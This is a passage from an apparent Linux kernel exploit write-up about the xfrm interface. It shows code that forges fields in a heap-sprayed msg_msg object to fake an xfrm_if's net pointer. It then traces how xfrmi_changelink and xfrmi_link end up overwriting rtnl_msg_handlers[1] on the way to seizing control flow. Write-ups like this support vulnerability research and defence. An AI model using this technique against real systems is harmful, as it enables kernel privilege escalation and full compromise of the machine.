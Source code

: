 ```
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MSG_MSG+OFFSET_XFRM_IF_NET] = address_of_test3_dev + NETDEV_PRIV + OFFSET_XFRM_IF_DEV - OFFSET_NET_GEN; //fake xi->net, point to the heap of test3 which we pad before in step 3.
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MSG_MSG+OFFSET_XFRM_IF_P_LINKID_AND_P_IFID] = 0x1000000000; //xfrm_if->p.link = 0 and xfrm_if->p.if_id = 1
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MSG_MSG+OFFSET_XFRM_IF_P_COLLECT_MD] = 0;//xfrm_if->p.collect_md
```
7. call `xfrmi_changelink` for `test2` with the ID is `TEST1_ID`. Let's see what happens. Because we use `TEST1_ID`, we will get back the pointer of `test1` at (1). Since we successfully forged `test1->dev = test2's struct net_device` in step 6, we can bypass the check in (2) and successfully enter the function `xfrmi_update`. The pointer to `xi->net` obtained at (3) is the `address_of_test3_dev + NETDEV_PRIV - OFFSET_NET_GEN` we forged in step 6. In this way, the `xfrmn` obtained at (4) will point to the `ADDR_OF_RTNL_MSG_HANDLERS + kernel_off + 8 - HASH_OF_TEST1_ID * 8` we filled in step 5. Finally, at position 5, we will modify `&rtnl_msg_handlers[1]`
```
static int xfrmi_changelink(struct net_device *dev, struct nlattr *tb[],
			   struct nlattr *data[],
			   struct netlink_ext_ack *extack)
{
	...
	xi = xfrmi_locate(net, &p); //(1)
	if (!xi) {
		xi = netdev_priv(dev); 
	} else {
		if (xi->dev != dev)		//(2)
			return -EEXIST;
	}
	...
	return xfrmi_update(xi, &p);
}

static int xfrmi_update(struct xfrm_if *xi, struct xfrm_if_parms *p)
{
	struct net *net = xi->net; //(3)
	struct xfrmi_net *xfrmn = net_generic(net, xfrmi_net_id); //(4)
	...
	xfrmi_link(xfrmn, xi); 
	...
}

static void xfrmi_link(struct xfrmi_net *xfrmn, struct xfrm_if *xi)
{
	struct xfrm_if __rcu **xip = &xfrmn->xfrmi[xfrmi_hash(xi->p.if_id)]; 

	rcu_assign_pointer(xi->next , rtnl_dereference(*xip));
	rcu_assign_pointer(*xip, xi); //(5)
}
```
So based on the method in `Crontrol RIP`, it finally overwrite rtnl_msg_handlers[1] = struct net_device of test1 + NETDEV_PRIV
